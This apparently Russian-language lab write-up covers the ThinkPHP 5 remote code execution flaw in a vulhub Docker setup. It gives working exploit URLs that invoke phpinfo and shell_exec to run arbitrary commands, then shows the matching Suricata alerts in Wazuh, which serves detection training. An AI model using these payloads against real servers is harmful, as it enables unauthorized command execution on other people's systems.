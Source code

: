 # 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/thinkphp/5-rce

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(1).png" alt=""><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине, например команду "id":
```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id
```
<figure><img src="../../.gitbook/assets/thinkphp-5-rce(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(4).png" alt=""><figcaption></figcaption></figure>
